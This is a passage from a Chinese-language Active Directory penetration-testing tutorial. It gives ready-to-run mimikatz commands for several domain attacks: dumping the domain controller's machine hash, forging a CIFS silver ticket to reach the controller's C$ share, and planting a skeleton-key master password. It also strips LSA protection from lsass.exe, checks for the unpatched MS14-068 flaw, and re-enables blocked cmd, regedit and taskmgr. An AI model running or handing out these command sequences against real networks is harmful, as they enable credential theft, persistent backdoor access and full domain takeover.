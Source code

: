 `#在域控上导出 DC$ 的 HASH mimikatz log "privilege::debug" "sekurlsa::logonpasswords"  #利用 DC$ 的 Hash制作一张 cifs 服务的白银票据 kerberos::golden /domain:ABC.COM /sid: S-1-5-21-3912242732-2617380311-62526969 /target:DC.ABC.COM /rc4:f3a76b2f3e5af8d2808734b8974acba9 /service:cifs /user:strage /ptt  #cifs是指的文件共享服务，有了 cifs 服务权限，就可以访问域控制器的文件系统 dir \\DC.ABC.COM\C$`

#### 5.3 skeleton key

skeleton key(万能钥匙)就是给所有域内用户添加一个相同的密码，域内所有的用户 都可以使用这个密码进行认证，同时原始密码也可以使用，其原理是对 lsass.exe 进行注 入，所以重启后会失效。

Copy

`#在域控上安装 skeleton key mimikatz.exe privilege::debug "misc::skeleton"  #在域内其他机器尝试使用 skeleton key 去访问域控，添加的密码是 mimikatz net use \\WIN-9P499QKTLDO.adtest.com\c$ mimikatz /user:adtest\administrator`

微软在 2014 年 3 月 12 日添加了 LSA 爆护策略，用来防止对进程 lsass.exe 的代码注入。如果直接尝试添加 skelenton key 会失败。

![](http://www.0-sec.org/%E5%9F%9F%E6%B8%97%E9%80%8F/img/70.png)

Copy

`#适用系统 windows 8.1 windows server 2012 及以上`

当然 mimikatz 依旧可以绕过，该功能需要导入mimidrv.sys文件，导入命令如下:

Copy

`privilege::debug !+ !processprotect /process:lsass.exe /remove  misc::skeleton`

#### 5.4 MS14-068

当我们拿到了一个普通域成员的账号后，想继续对该域进行渗透，拿到域控服务器权限。如果域控服务器存在 MS14_068 漏洞，并且未打补丁，那么我们就可以利用 MS14_068 快速获得域控服务器权限。

MS14-068编号 CVE-2014-6324，补丁为 3011780 ，如果自检可在域控制器上使用命令检测。

Copy

`systeminfo |find "3011780" #为空说明该服务器存在MS14-068漏洞`

操作链接：MS14-068复现(CVE-2014-6324)：[https://www.cnblogs.com/-mo-/p/11890539.html](https://www.cnblogs.com/-mo-/p/11890539.html)

### 0x06 其他

#### 6.1 使用mimikatz导出chrome中的密码

详情请见：[链接](https://mp.weixin.qq.com/s?__biz=MzIzOTg0NjYzNg==&mid=2247483949&idx=1&sn=db4853c88e4bf0a550c095d9017a363c&chksm=e92297aede551eb815a604ba944c4666b260c5bfe044e1b3a60946b586fd5679e29db0adf18d&mpshare=1&scene=23&srcid=&sharer_sharetime=1582350092849&sharer_shareid=d32981e13d51bf06188894426d2a54e5#rd)

#### 6.2 隐藏功能

管理员常常会禁用一些重要程序的运行，比如cmd、regedit、taskmgr，此时不方便渗透的进一步进行，这里除了去改回原来的配置，还可以借助mimikatz的一些功能：

Copy

`privilege::debug misc::cmd misc::regedit misc::taskmgr`
